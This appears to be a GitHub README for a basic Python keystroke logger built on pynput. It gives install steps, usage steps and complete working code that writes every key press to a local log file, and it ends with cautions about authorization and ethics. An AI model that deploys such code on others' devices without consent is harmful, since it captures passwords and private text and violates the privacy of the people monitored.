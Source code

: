 # Simple_Keylogger


Keystroke Logger using pynput

Overview:
This Python script utilizes the pynput library to create a basic keystroke logger. The script logs each key press to a specified log file.

Installation:
  To install the required pynput library, execute the following command:
    pip install pynput

Usage:
1.Install the pynput library as mentioned above.
2. Run the script by executing the keystroke_logger.py file.
3. The script will log each key press to the specified log file (keystrokes_log.txt by default).
4. Terminate the script by manually stopping the execution.

Code:

from pynput import keyboard

log_file_path = "keystrokes_log.txt"

def on_key_press(key):
    try:
        with open(log_file_path, "a") as log_file:
            log_file.write(f"{key} pressed\n")
    except Exception as e:
        print(f"Error writing to log file: {e}")

def on_key_release(key):
    pass

def main():
    with keyboard.Listener(on_press=on_key_press, on_release=on_key_release) as listener:
        listener.join()

if __name__ == "__main__":
    main()

Notes:
* The script captures each key press and appends the key to the specified log file.
* The on_key_release function is currently empty, as this example focuses on key press logging. You can modify it to handle key release events if needed.
* CAUTION: Keystroke logging may raise privacy and ethical concerns. Ensure that you have appropriate authorization before deploying or using such a tool.
* Use this script responsibly and only in scenarios where it complies with legal and ethical standards.

